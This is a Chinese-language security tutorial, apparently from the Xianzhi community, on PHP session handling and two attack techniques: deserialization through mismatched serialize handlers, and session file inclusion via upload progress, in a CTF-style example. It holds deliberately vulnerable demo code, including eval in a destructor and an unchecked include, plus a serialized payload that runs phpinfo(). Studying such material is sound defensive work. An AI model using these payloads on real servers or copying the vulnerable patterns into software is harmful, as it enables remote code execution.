# session攻击的几种方式-先知社区

> **来源**: https://xz.aliyun.com/news/17458  
> **文章ID**: 17458

---

# 什么是 php session

什么是session？其实就是服务器为了保存用户状态而创建的一个保存用户信息的特殊对象，是存储在服务端的，有session那肯定就有sessionid了，他是怎么来的？当我们浏览器第一次访问服务器时，服务器创建一个session对象并且该对象有一个唯一的id,叫做sessionId,服务器会将sessionid以cookie的方式发送给浏览器，当浏览器再次访问服务器时，会将sessionId发送过来，服务器依据sessionId就可以找到对应的session对象，在这创建session对象的时候服务端先进行序列化再存储到session文件里（session文件就是专门保存序列化后的对象的），相反服务器依据sessionId找到对应的session对象的过程就是通过提取session文件来反序列化生成对象的，就是在这过程中就有可能产生session反序列化漏洞了，**前提条件使用不同的引擎来处理session文件，这个后面就会说**，不同引擎什么鬼？其实就是用两种不同的方法序列化和反序列化对象，还有就是不同引擎怎么处理，说的比较普通点就是两个不同页面处理这个由客户端发来的sessionid的时候用了两种不同的方法序列化和反序列化对象

# session在php.ini中的配置

```
session.save_path="" //设置session的存储路径
session.save_handler=""//设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start boolen//指定会话模块是否在请求开始时启动一个会话默认为0不启动
session.serialize_handler string//定义用来序列化或者反序列化的处理器名字。默认使用php（这个就是我们上面说的引擎了）
```

# Session 创建与请求流程详解

**session\_start的作用**

当会话自动开始或者通过 session\_start() 手动开始的时候， PHP 内部会依据客户端传来的PHPSESSID来获取现有的对应的会话数据（即session文件）， PHP 会自动反序列化session文件的内容，并将之填充到 $\_SESSION 超级全局变量中。如果不存在对应的会话数据，则创建名为sess\_PHPSESSID(客户端传来的)的文件。如果客户端未发送PHPSESSID，则创建一个由32个字母组成的PHPSESSID，并返回set-cookie。

**首次请求时的 Session 初始化**

* **生成 Session ID**  
  session\_start() 调用时，若未检测到有效的 PHPSESSID，PHP 会通过 **随机数生成器**（如 /dev/urandom）创建一个 **32 字符的十六进制字符串**（如 c7fa3b7a4a1a5d8e0f3b6a2c9e8d7b0f），确保唯一性和不可预测性。
* **Cookie 设置**  
  Session ID 通过 Set-Cookie 头发送到客户端，默认属性包括：

* path=/：Cookie 对网站所有路径有效。
* HttpOnly：阻止 JavaScript 访问 Cookie，防御 XSS 窃取 Session。
* Secure（仅在 HTTPS 下生效）：确保 Cookie 仅通过加密传输。

* **服务器端存储**  
  在 session.save\_path 指定的目录下创建文件（如 /tmp/sess\_c7fa3b7...），内容初始化为空。

**后续请求的 Session 验证**

* **客户端携带 Session ID**  
  浏览器自动在请求头的 Cookie 字段中包含 PHPSESSID，例如：

```
Cookie: PHPSESSID=c7fa3b7a4a1a5d8e0f3b6a2c9e8d7b0f
```

session的全部机制是基于这个session\_id，服务器就是通过这个唯一的session\_id来区分出这是哪个用户访问的

```
<?php
highlight_file(__FILE__);
session_start();
echo "session_id 为: ".session_id()."<br>";
echo "COOKIE 为: ".$_COOKIE["PHPSESSID"];
```



# session的存储机制

PHP中的Session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项session.save\_handler来进行确定的，默认是以文件的方式存储。存储的文件是以sess\_sessionid来进行命名的，文件的内容就是Session值的序列化之后的内容。session的存放形式是以sess\_+session\_id进行命名的



下面对session进行赋值的话，看看里面的内容会发生怎样的变化

```
<?php
highlight_file(__FILE__);
session_start();
$_SESSION['user'] = "xiaomin";
echo "session_id 为: ".session_id()."<br>";
echo "COOKIE 为: ".$_COOKIE["PHPSESSID"];
```

session文件里面的内容是：**键名|序列化数据**



# Session反序列化原理



这里看到会自动进行反序列化数据，所以说，这里并不需要什么unserialize函数便可以自动进行反序列化操作。

因为我们传入的是键值对，那么session序列化存储所用的处理器肯定也是将这个**键值对**写了进去，那我们怎么让它正好反序列化到我们传入的内容呢？这里就需要介绍出**两种处理器的差别**了，php处理器写入时的格式为键名+竖线|+经过serialize()序列化处理后的值那它读取时，肯定就会以竖线|作为一个分隔符，前面的为键名，后面的为键值，然后将键值进行**反序列化**操作；而php\_serialize处理器是直接进行序列化，然后返回**序列化后的数组**，那我们能不能在我们传入的序列化内容前加一个分隔符|，从而正好**序列化我们传入的内容呢**？

# session序列化的几种方式

PHP中Session有三种序列化的方式，分别是php，php\_serialize，php\_binary，不同的引擎所对应的Session的存储的方式不同

|  |  |
| --- | --- |
| **存储引擎** | **存储方式** |
| php\_binary | 键名的长度对应的 ASCII 字符 + 键名 + 经过 serialize() 函数序列化处理的值 |
| php | 键名 + 竖线 + 经过 serialize() 函数序列处理的值 |
| php\_serialize | (PHP>5.5.4) 经过 serialize() 函数序列化处理的数组 |

设置为php\_serialize

```
<?php
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['username'] = $_GET['user'];
?>
```

session文件内容：



序列化的结果为：a:1:{s:8:"username";s:7:"xiaomin";}

文件名为 sess\_mm6e6m5pr0rklq7fj8k6lf8erv，其中mm6e6m5pr0rklq7fj8k6lf8erv为当前会话的sessionid

Session文件内容为：GET参数经过serialize序列化后的值。

当为php时：

```
<?php
error_reporting(0);
ini_set('session.serialize_handler','php');
session_start();
$_SESSION['username'] = $_GET['username'];
?>
```

session文件内容为：



序列化的结果为：username|s:7:"xiaomin";

文件名为 sess\_mm6e6m5pr0rklq7fj8k6lf8erv，其中mm6e6m5pr0rklq7fj8k6lf8erv为当前会话的sessionid

Session文件内容为：$\_SESSION['username']的键名 + | + GET参数经过serialize序列化后的值。

当为php\_binary时

```
<?php
error_reporting(0);
ini_set('session.serialize_handler','php_binary');
session_start();
$_SESSION['username'] = $_GET['user'];
?>
```

session文件内容为：



序列化的结果为：username":s:7:"xiaomin";

文件名为 sess\_mm6e6m5pr0rklq7fj8k6lf8erv，其中mm6e6m5pr0rklq7fj8k6lf8erv为当前会话的sessionid

Session文件内容为：键名的长度对应的 ASCII 字符 + $\_SESSION['username']的键名 + GET参数经过serialize序列化后的值。

```
|                               |→ 创建文件 sess_abc123
   | <---- 2. 返回 Set-Cookie ----- |
   |     (PHPSESSID=abc123)        |
   |                               |
   | ----- 3. 携带 Cookie ID -----> |
   |                               |→ 读取 sess_abc123
   |                               |→ 加载 $_SESSION 数据
   | <---- 4. 返回动态内容 -------- |
   |                               |
   | ----- 5. 更新 Session -------> |
   |                               |→ 序列化并保存新数据
   |                               |
```

# 漏洞利用

在php\_binary或者php\_serialize里面他都不会识别这个|符号而且他对输入的具体值他不会当成一个由对象序列化的字符串来反序列化，他好像就直接把输入的字符串当成一个具体的值来反序列化了，然而这个php就完全不同了，他会把这个|后的字符串当成一个由对象序列化的字符串来反序列化，就是利用这一个关键点就可以实现反序列化漏洞的利用了

1.php

```
<?php
highlight_file(__FILE__);
ini_set('session.serialize_handler','php_serialize');
error_reporting(0);
session_start();
$_SESSION["username"] = $_GET['user'];  ?>
```

2.php

```
<?php
highlight_file(__FILE__);
error_reporting(0);
ini_set('session.serialize_handler','php');
session_start();
class demo{
    public $demo1;
    function __destruct()
    {
        eval($this->demo1);
    }
} 
?>
```

反序列化后为：

```
O:4:"demo":1:{s:5:"demo1";s:10:"phpinfo();";}";}
```

**session.serialize\_handler设置为php的话，其实是有一个|的，键名+|+序列化后的值，我们可以看到我们将2.php的****session.serialize\_handler****的值时设置为php的，那么他获取的sess\_mm6e6m5pr0rklq7fj8k6lf8erv文件内的值应该是：****键名+|+序列化后的值**



如果我们携带这个session值去访问2.php的话，由于：|后面的O:4:"demo":1:{s:5:"demo1";s:10:"phpinfo();";}";} 将会被2.php页面理解为这是序列化后的结果，由于前文提到了session\_start()函数会自动进行反序列化操作

所以我们2.php页面会自动将|后面的O:4:"demo":1:{s:5:"demo1";s:10:"phpinfo();";}";} 进行一个反序列化操作，最终到达命令执行的效果



## Session Upload Progress

当没有$\_SESSION变量赋值，在PHP中还存在一个upload\_process机制，即自动在$\_SESSION中创建一个**键值对**，值中刚好存在**用户可控的部分**



在 php.ini 中需配置以下参数：

```
; 启用上传进度跟踪（默认开启）
session.upload_progress.enabled = On

; 进度信息前缀（用于生成 Session 键名）
session.upload_progress.prefix = "upload_progress_"

; 清理机制：上传完成后自动删除进度数据（建议开启）
session.upload_progress.cleanup = On

; 最小上传数据量后开始跟踪（默认 1KB）
session.upload_progress.min_freq = "1KB"
```

**客户端上传文件**

* 表单需包含一个名为 PHP\_SESSION\_UPLOAD\_PROGRESS 的隐藏字段：

```
<form action="xxx" method="POST" enctype="multipart/form-data">
        <input type="hidden" name='PHP_SESSION_UPLOAD_PROGRESS' value="123" />
        <input type="file" name="file" />
        <input type="submit" />
</form>
```

例题1：

```
<?php

function waf($path){
$path = str_replace(".","",$path);
return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
include "file://".$_POST[1];
}
```

这里禁用了为协议来进行文件包含，但是·开启了session，就可以session文件包含

这里的思路就是利用上传文件会自动存储到对应的sessid文件夹里面，所以就是读取传入的文件，而正好传输文件里面的参数我们是可控的(PHP\_SESSION\_UPLOAD\_PROGRESS来控制)



再包含session文件，进行rce


